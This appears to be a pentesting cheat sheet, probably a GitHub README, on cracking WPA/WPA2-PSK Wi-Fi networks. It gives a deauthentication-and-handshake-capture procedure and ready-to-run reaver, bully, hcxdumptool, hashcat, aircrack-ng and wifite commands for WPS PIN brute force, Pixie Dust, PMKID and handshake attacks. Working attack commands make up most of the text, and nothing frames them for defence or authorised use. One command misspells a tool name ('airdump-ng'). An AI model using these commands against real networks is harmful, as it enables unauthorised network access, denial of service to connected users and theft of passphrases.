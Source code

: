 # 802.11 Sniffing WPA/WPA2 with PSK
802.11 authentication is a process whereby the access point either accepts or rejects the identity of a radio NIC. The NIC begins the process by sending an authentication frame containing its identity to the access point. With open system authentication (the default), the radio NIC sends only one authentication frame, and the access point responds with an authentication frame as a response indicating acceptance (or rejection). Beacon frames are transmitted periodically to announce the presence of a wireless network and contain all information about it(data rates, channels, security ciphers, key management, etc.).

### WPA/WPA2 Attack Process:
    1. Start and Deauthenticate with WPA/WPA2 Protected WLAN client by using WLAN tools.
    2. If the client is Deaauthenticated, then sniff the traffic and check the status of the captured EAPOL Handshake.
    3. If the client did not Deauthenticate then do it again.
    4. Check whether the EAPOL handshake is captured or not.
    5. Once you captured the EAPOL handshake, then perform a PSK Dictionary attack using coWPAtty and 
       Aircrack-ng to gain confidential information.
       
    6. Add time-memory trade-off method (Rainbow tables) also known as WPA-PSK Precomputation attack for cracking WPA/2 passphrase.
    7. If the client failed then deauthenticate again and try to capture and redo the above steps.

### WPS PIN Attack
    Known PINs + Generation Algorithms
      $ airgeddon.sh (Known PINs database based attack)
  
    WPS PIN Bruteforce (online)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv
      $ bully mon0 -b <MAC_AP> -c <channel>  -S -F -B -v 3
  
    WPS Pixie Dust Attack (offline)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv
      $ bully mon0 –b <MAC_AP> -d -v 3
  
    Null PIN attack
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ''
      
    All above commands can be automated using: wifite --wps-only [--bully]

### PMKID Capture (client-less) & Cracking
    $ hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>
    $ hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng
    $ hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>
    
    All above commands can be automated using: wifite --pmkid [--pmkid-timeout <sec>]

### Handshake Capture (req. client) & Cracking
    $ airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
    $ aircrack-ng -a 2 -b <AP_MAC> -w  <wordlist> <capture>
    
    All above commands can be automated using: wifite --wpa [-dict <wordlist>]
